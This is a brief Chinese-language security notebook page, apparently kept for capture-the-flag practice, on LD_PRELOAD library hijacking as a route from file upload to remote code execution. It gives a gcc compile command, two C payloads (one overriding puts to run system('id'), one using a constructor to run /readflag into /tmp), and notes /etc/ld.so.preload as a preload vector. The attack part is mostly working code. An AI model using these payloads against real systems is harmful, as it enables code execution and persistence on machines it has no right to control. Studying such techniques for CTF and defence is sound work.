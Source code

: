 alias:: LD_PRELOAD

- # 介绍
	- 强制让程序启动时加载某个共享库，共享库可以“替换”c/c++程序运行时调用的函数（比如替换`puts`函数），实现从文件上传到RCE
	- payload
		- 编译：`gcc a.c -o hook.so -fPIC -shared -ldl -D_GNU_SOURCE`
			- ```c
			  #include <stdio.h>
			  #include <stdlib.h>
			  
			  int puts(const char *message) {
			    printf("hack you!!!");
			    system("id");
			    return 0;
			  }
			  ```
			- ```c
			  #include <stdlib.h>
			  #include <stdio.h>
			  #include <string.h>
			  // 这个测试时会执行无限次。。。
			  __attribute__ ((__constructor__)) void angel (void){
			    unsetenv("LD_PRELOAD");
			    system("/readflag > /tmp/wx.txt");
			  }
			  ```
- # LD_PRELOAD环境变量
	- 一个环境变量，用以指定程序启动时加载的共享库
	- ```shell
	  export LD_PRELOAD=/path/to/override.so
	  ```
- # /etc/ld.so.preload
	- 可以用来指定预加载共享库的文件，其中存储预加载共享库的路径，每行一个
	- 前置条件：查看对应的程序是否会加载这个文件`strace /bin/file`